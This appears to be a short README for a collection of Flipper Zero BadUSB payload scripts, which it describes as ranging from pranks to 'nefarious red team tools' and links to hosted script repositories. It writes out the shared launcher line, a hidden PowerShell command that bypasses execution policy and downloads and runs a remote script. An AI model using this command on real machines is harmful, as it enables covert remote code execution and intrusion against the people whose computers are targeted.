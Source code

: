 # Downloadable-Fast-Execution-Scripts-For-FlipperZero

Easy to setup with tutorials for web hooks etc below...

They use this cmd > `STRING powershell -NoP -Ep Bypass -W H -C $variable='USER_INPUT_HERE'; irm HOSTED_SCRIPT_URL_HERE | iex`

These scripts range from harmless pranks to nefarious red team tools. For educational purposes only! 

**If you want to learn more about the code, or modify them, most of these scripts are in powershell format here**

https://github.com/beigeworm/Powershell-Tools-and-Toys

# Pre-Deployment Setup
Most of these scripts will require some setup before they will work.

Setup Instructions are within the payload files.

--------------------------------------------------------------------------------
**These Scripts Are Pulled From This Repository**

https://github.com/beigeworm/assets/tree/main/Scripts

**You Should ALWAYS Read Any Scripts BEFORE running them**
